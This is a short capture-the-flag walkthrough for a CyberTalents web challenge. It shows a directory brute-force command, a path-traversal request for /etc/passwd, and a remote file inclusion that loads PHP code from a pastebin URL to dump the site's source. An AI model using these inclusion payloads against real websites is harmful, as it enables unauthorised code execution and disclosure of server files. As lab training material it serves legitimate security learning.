 # Solve global
#### https://cybertalents.com/challenges/web/global

![alt text](images/image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mol2z7gdimv50j6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*
Nothing found 

### Try to find valid pages 
`http://wcamxwl32pue3e6mol2z7gdimv50j6zqdkgxu639-web.cybertalentslabs.com/global/?page=index.php`
![alt text](images/image-1.png)

### Test LFI 
`http://wcamxwl32pue3e6mol2z7gdimv50j6zqdkgxu639-web.cybertalentslabs.com/global/?page=../../../etc/passwd`
Doesn't work 

### Try RFI
`http://wcamxwl32pue3e6mol2z7gdimv50j6zqdkgxu639-web.cybertalentslabs.com/global/?page=https://github.com/medhathassan`
![alt text](images/image-2.png)

It works !!

Upload this code with pastebin to view source code 

```php
<?php
show_source("./index.php");

?>
```

`http://wcamxwl32pue3e6mol2z7gdimv50j6zqdkgxu639-web.cybertalentslabs.com/global/?page=https://pastebin.com/raw/uhKp3Exk`

![alt text](images/image-3.png)

>Find More on ==> github.com/MedhatHassan 
